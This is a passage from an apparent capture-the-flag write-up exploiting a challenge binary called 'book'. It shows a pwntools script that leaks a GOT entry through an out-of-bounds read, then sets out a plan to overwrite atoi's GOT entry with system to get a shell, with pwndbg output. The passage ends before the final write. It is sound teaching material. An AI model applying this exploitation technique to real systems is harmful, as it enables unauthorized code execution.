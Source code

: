 With our `OOB read`, we can leak the contents of the `GOT` entry which hasn't been called yet. in my exploit, I read the `GOT` entry of the `write` function.

I noticed that the offset of that function is `0x1040`, so I just subtracted it from my leak to get the binary base address.

Here is my leak:

```py
elf = ELF("./book")
p.sendline("name") 

def read(idx):
	p.sendline("2")
	p.recvuntil("read? ")
	p.sendline(str(idx))
	p.recvuntil("NOTE: ")	
	return p.recvline()

p = process('./book')

elf.address = u64(read(-6)[:-1].ljust(8, b'\x00'))  - 0x1040

print(hex(elf.address))
``` 

Now, what should be overwrite with out `OOB write`?

As I said earlier, the `GOT` is marked `r/w` because of `Partial Relro`.

When an external function will be called, the program will jump to what is written in the corrosponding `GOT` entry.

By using our `OOB write` primitive, we can write anything we want into the `GOT`, which gives us a complete `RIP` control!

It is worth noticing that in the `init` function, `system("mkdir note 2>/dev/null");` will be called.

Because of that, `system` will be in the `GOT`, and we can redirect code execution of any function to it, without needing to do a `ret2libc` attack.

Now, we need what we will write, but the question is where?

Our final objective is to run `system('/bin/sh')`.

To achieve that, we would need to control the first parameter of the called function.

We would need to choose a `libc` function which takes exactly 1 parameter, which we can control.

I chose `atoi`, its the perfect candidate, since it will be called with a string we control.

I saw that the `atoi` `GOT` entry is located `0xb8` bytes before our `todos` array:

```
pwndbg> got atoi
GOT protection: Partial RELRO | Found 1 GOT entries passing the filter
[0x555555558088] atoi@GLIBC_2.2.5 -> 0x555555555110 ◂— endbr64 
pwndbg> x/gx &todos
0x555555558140 <todos>:	0x0000000000000000
pwndbg> x 0x555555558140-0x555555558088
0xb8:	Cannot access memory at address 0xb8
```

